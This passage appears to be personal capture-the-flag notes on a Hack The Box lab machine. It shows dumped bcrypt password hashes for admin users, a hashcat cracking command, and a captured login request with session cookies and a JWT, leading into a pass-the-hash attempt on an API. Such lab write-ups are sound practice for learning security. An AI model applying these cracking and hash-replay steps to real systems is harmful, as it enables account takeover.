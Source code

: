 notice from before that admin field was set to 0 for me(hacker)
```
steve:steve@intentions.htb:1:$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa:food,travel,nature

greg:greg@intentions.htb:1:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m:food,travel,nature
```
greg and steve have it set to 1... lets crack these passwords and try to login as them see if dashboard is different...

from message above we know these hashes are prob bcrypt:
hashes.txt:
```
$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa
$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m
```

hashcat:
```
hashcat -m 3200 hashes.txt  /usr/share/wordlists/rockyou.txt --force
```
i let it run for over 20 min nothing......

looking back at the message we found and my burpsuite i notice requests going to /api/v1/...
lets try api/v2/.. like it says in message -  we can pass hash

```
POST /api/v1/auth/login HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: application/json
X-XSRF-TOKEN: eyJpdiI6Ijg4TTAvWTZPSUxCRTQ4aFR3emxqUFE9PSIsInZhbHVlIjoiVHNBRlpsZ1cxLzF0MmxEL01kMCtvNkpyckJPUldtVFJCL0xJbEpTLzFPK1JqWWlueTUwQlpyaWlkTXBWQitFZHhFRlRieG9FeFJkSnpWSWVINzVwTnVNMTNxa0l4QmlqdCtDZm9PZzZiV2RNRVd4ZFRJRnUzUWhmc2hJU3BmY3kiLCJtYWMiOiIwMTM5NzI0M2Q4Mjg1ZWY3N2RjMzljNjBjZmE0MzZjZGVlMTkzNGNkZDQxOTFkNTk3MmU4NThlMjBjMzIzNjk3IiwidGFnIjoiIn0=
Content-Length: 50
Origin: http://10.10.11.220
Connection: keep-alive
Referer: http://10.10.11.220/index.php
Cookie: XSRF-TOKEN=eyJpdiI6Ijg4TTAvWTZPSUxCRTQ4aFR3emxqUFE9PSIsInZhbHVlIjoiVHNBRlpsZ1cxLzF0MmxEL01kMCtvNkpyckJPUldtVFJCL0xJbEpTLzFPK1JqWWlueTUwQlpyaWlkTXBWQitFZHhFRlRieG9FeFJkSnpWSWVINzVwTnVNMTNxa0l4QmlqdCtDZm9PZzZiV2RNRVd4ZFRJRnUzUWhmc2hJU3BmY3kiLCJtYWMiOiIwMTM5NzI0M2Q4Mjg1ZWY3N2RjMzljNjBjZmE0MzZjZGVlMTkzNGNkZDQxOTFkNTk3MmU4NThlMjBjMzIzNjk3IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6ImtjNys0a05LVlFZU1UzYmsxNGJGL3c9PSIsInZhbHVlIjoiZ3pQMlc5Si9JMHozR2NOKy9wTGh2QmZJWEc0UzNMZXNhZ01TQWp3eDcrL2lwYmF0eXpqZzZ2Ui92S0N3WnN3a2RhZ3E3bDRxUVZ6d2ZacCtSMjZVQzR6WG12Szl1bDVlTXBxK0hVVWhSaU95QnhWMWc2WFNaTmxBUEJyRlZwZ0wiLCJtYWMiOiI2YTQ2NzFhOTFhY2Y0MzUxYmE3ZDk2YjUzMDc1NDZlZWEyMjM2MzJlNzUwYTQ0NDcxOGY5ZjVkZjgxODdjODZkIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNzU3NjM3Nzg3LCJleHAiOjE3NTc2NTkzODcsIm5iZiI6MTc1NzYzNzc4NywianRpIjoiTnE0blRRQXlmOEt5R2hjWSIsInN1YiI6IjI4IiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.aZCBHqP38rxU_Xxzfb-UPHt6ptiSMCPHUq5MkSZZoxw
Priority: u=0

{"email":"hacker@gmail.com","password":"pwned123"}
```
